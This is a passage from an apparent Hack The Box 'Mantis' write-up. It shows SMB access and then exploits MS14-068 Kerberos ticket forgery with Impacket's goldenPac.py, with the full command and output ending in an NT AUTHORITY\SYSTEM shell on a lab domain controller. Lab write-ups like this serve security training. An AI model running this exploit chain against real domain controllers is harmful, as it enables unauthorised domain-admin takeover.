 ```bash
|   FQDN: mantis.htb.local
|_  System time: 2018-02-23T15:59:13-05:00

Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```
```
root@kali:/tmp/impacket/examples# smbclient -U James -W HTB  \\\\MANTIS\\NETLOGON
WARNING: The "syslog" option is deprecated
Enter HTB\James's password: 
Try "help" to get a list of possible commands.
smb: \> 
```

MS14-068
------------
In short, the vulnerability targeted the kerberos service, and allowed any user to elevate their permissions from regular user, to domain admin by forging a kerberos ticket.  This is quite a well known exploit and it's always worth checking if interacting with an out of date domain controller if you have a lower privileged user.

The Impacket [goldenPac](https://github.com/CoreSecurity/impacket/blob/master/examples/goldenPac.py) script is about as point-and-click as this attack gets in all honesty.  It handles the more annoying parts such as fetching the SID, and authorizing with the kerberos ticket.  We run it as below and are almost instantly returned a shell:

```
root@kali:/tmp/impacket/examples# python goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 HTB.LOCAL/james@mantis.htb.local
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on 10.10.10.52.....
[*] Found writable share ADMIN$
[*] Uploading file rFgUlpSB.exe
[*] Opening SVCManager on 10.10.10.52.....
[*] Creating service RKhU on 10.10.10.52.....
[*] Starting service RKhU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


References
-----------
https://labs.mwrinfosecurity.com/blog/digging-into-ms14-068-exploitation-and-defence/  
https://www.trustedsec.com/2014/12/ms14-068-full-compromise-step-step/  
https://blog.rapid7.com/2014/12/25/12-days-of-haxmas-ms14-068-now-in-metasploit/  
http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html  
